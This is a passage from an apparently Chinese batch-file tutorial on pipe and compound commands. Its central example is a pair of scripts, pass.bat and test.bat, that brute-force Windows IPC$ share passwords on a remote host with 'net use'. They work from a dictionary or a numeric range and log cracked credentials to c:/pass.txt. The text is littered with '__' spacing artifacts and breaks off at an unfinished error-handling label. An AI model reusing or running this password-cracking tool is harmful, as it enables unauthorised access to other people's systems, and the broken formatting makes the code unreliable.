 有关管道命令和组合命令就大概介绍到这里了，不知道聪明的你是否理解？呵呵，能理解就成天才了，除非你以前就已经掌握！千万别小看了这几个鬼命令，大棒槌是我的说，简直就不是人学的东西！但我还是静下心来研究了一番，最后得出的结论如上所述，已经一点不剩的交给你了，希望你好好收藏并消化吸收，当然有错误被你发现了，或者不完整的地方被你看出来了，请赶紧告诉我一声！  
  
这几个命令真的把我的头都搞大了。在网上有一篇流传很广的批处理教程：“简明批处理教程”，虽然说的比较全面，但看起来很不过瘾。在对for等命令介绍时就一个for
__/? __ > __a.txt __ & __start __a.txt完事了（当然这一点上我不能说人家什么，毕竟我连for
__/?都没给出），而对上述管道命令和组合命令、以及这篇教程以后将讲到的用批处理操作注册表等方面根本没有介绍。我之所以花整整一章来讲管道命令和组合命令，是因为他们才是批处理的精华和灵魂，能否正确利用好这几个命令，是能否掌握批处理的前提条件。如for、set等DOS命令的问题，可以从DOS的角度出发专门有针对性的学习，但有关这几个命令的问题，却是不容易精通掌握的
----他们之间的关系太复杂了！ __  
将下列代码存为bat文件  
1、如果用字典破解：pass.bat __字典文件路径及名称 __主机 __用户名 __  
2、如果用数字破解：pass.bat __起始数 __步长 __结束数 __主机 __用户名  
密码破解出来之后，存放于c:/pass.txt文件里面。 __  
将下列代码存为pass.bat文件  
@echo __off __  
echo __\------------------------------------------------------------------- __
>>c:/pass.txt __  
echo __\------------------------------------------------------------------- __
>>c:/pass.txt __  
date __/t __ >>c:/pass.txt __  
time __/t __ >>c:/pass.txt __  
echo __破解结果： __ >>c:/pass.txt __  
if __"%6"=="1" __goto __大棒槌是我的说2 __  
:大棒槌是我的说1 __  
start __"正在破解" __/min __cmd __/c __for __/f __%%i __in __(%1) __do __call
__test.bat __%2 __"%%i" __%3 __  
goto __quit __  
:大棒槌是我的说2 __  
start __"正在破解" __/min __cmd __/c __for __/l __%%i __in __(%1,%2,%3) __do
__call __test.bat __%4 __"%%i" __%5 __  
:quit  
将下列代码存为test.bat  
net __use __//%1/ipc$ __%2 __/user:"%3" __  
goto __answer%ERRORLEVEL% __  
rem __%ERRORLEVEL%表示取前一命令执行返回结果，net __use成功返回0，失败返回2 __  
:answer0 __  
echo __远程主机："%1" __ >>c:/pass.txt __  
echo __用 __户："%3" __ >>c:/pass.txt __  
echo __密 __码：%2 __ >>c:/pass.txt __  
net __use __//%1/ipc$ __/delet __  
exit __  
:answer2 __  
For  
对一组文件中的每个文件运行指定的命令。 __  
  
可以在批处理程序中或直接从命令提示符使用 __for __命令。  
  
要在批处理程序中使用 __for __命令，请使用以下语法： __  
  
for __%%variable __in __(set) __docommand __[command-parameters] __  
  
要在命令提示符下使用 __for，请使用以下语法： __  
  
for __%variable __in __(set) __do __command __[command-parameters] __  
  